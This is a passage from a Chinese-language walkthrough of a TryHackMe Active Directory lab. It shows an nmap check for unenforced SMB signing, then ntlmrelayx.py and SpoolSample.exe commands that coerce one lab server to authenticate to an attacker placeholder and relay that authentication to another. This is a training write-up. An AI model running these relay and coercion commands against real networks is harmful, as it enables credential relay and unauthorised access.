 ```shell title="Terminal"
thm@thm:~# nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
Nmap scan report for distributor.za.tryhackme.loc (172.31.1.201)
Host is up (0.62s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap scan report for 172.31.1.202
Host is up (0.38s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 4.59 seconds
```

我们可以根据输出看到 SMB 签名已启用但未被强制。这意味着我们所有的条件都已满足，我们可以开始攻击了！

### Exploiting Authentication Relays - 利用身份验证中继

:::tip

这种攻击可能不稳定。滥用打印池服务可能会导致其崩溃，并且不一定能收到回调。因此，前面的任务已经为您提供了继续进行的必要权限。但是，理解身份验证中继以及如何强制进行它们对于 AD 的利用至关重要。因此，以下提供了执行此类攻击的步骤。您可以尝试一下，但无法保证会回调。如果没有成功，请继续下一个任务，也许在完成您的房间旅程之后再来探索这个问题。

:::

我们将使用 [SpoolSample](https://github.com/leechristensen/SpoolSample) 来利用身份验证中继。这是一个 C# 的漏洞利用，但已经为您编译完成，并存储在 THMWRK1 的 `C:\Tools\` 目录中。我们将使用 Spoolsample.exe 强制 THMSERVER2 向我们的 AttackBox 进行身份验证，然后使用 [Impacket](https://github.com/fortra/impacket) 的 [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) 来中继身份验证尝试到 THMSERVER1。请注意，如果您正在使用自己的虚拟机，您需要确保拥有支持 SMBv2 的最新版本的 Impacket。

第一步是设置 NTLM 中继。在我们的 AttackBox 上，我们可以使用以下命令：

```shell title="Terminal"
thm@thm:~# python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

如果我们指定的是 THMSERVER1 的主机名而不是 IP，主机可能会要求我们使用 Kerberos 身份验证而不是 NTLM。因此，我们应该指定 IP。通过侦听中继，我们现在可以强制 THMSERVER2 对我们进行身份验证。在 THMWRK1 的 SSH 终端上执行以下操作：

```shell title="Terminal"
C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```
